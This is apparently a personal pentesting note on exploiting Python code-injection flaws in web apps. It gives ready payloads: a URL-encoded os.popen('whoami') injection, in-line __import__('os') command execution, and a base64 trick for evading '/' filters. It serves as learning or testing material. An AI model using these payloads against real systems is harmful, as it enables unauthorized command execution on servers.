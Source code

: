 ```yaml
---
language: python
exploit: "command-injection"
tags: python
---
```


To make sure what we have is a python application, we can first input a double quote (sometimes simple quote?) to receive an error. 

The error text probably won’t be useful, but the fact that we got an error is useful.

Now, we have to make sure it’s a python app, because a lot of other vulnerabilities could cause an error if we input a double quote.

```ad-caution
You do have to encode the double quotes to `%22` and you are better off encoding plus signs too `%2b`!
```

The best way to test is to use `str(True)` since if both of them are available that probably means it’s a python app.

Now you just have to exploit this by running `os.system('[command]')`
Single quotes because double quotes would break.

In case we want to return the result of the command we run, we have to use `os.popen('[command]').read()`

So a final exploit would look something like this:

```url
http://url.me/hello/world%22+os.popen('whoami').read()+%22
```



```ad-warning
This only works if OS is imported, and that's rare. Keep reading for a solution!
```

## In-line importing

So what if OS is not imported, well simple, since it’s a package that’s available on most if not all systems, we can just import it by doing:

```python
__import__('os').system('[evil_command]')
```

## Base64 char bypass

And what do we do when paths are not allowed? They usually restrict the `/` char, so we have to bypass it, for example with b64 encoding.

Let’s put this together with the previous thing we learned. The [[#In-line importing]]. 

First, we import the os as usual: 
```python
__import__('os').popen([ournewpayload]).read()
```

We also used `popen` so we can read out the data we get back.

Now let’s use `b64decode` to bypass the character limitations:

```python
__import__('base64').b64decode('[whatever command base64d]')
```

And put together:

```python
__import__('os').popen(__import__('base64').b64decode('[whatever command base64d]')).read()
```

aaand done, we put this into the url or wherever we found the injection.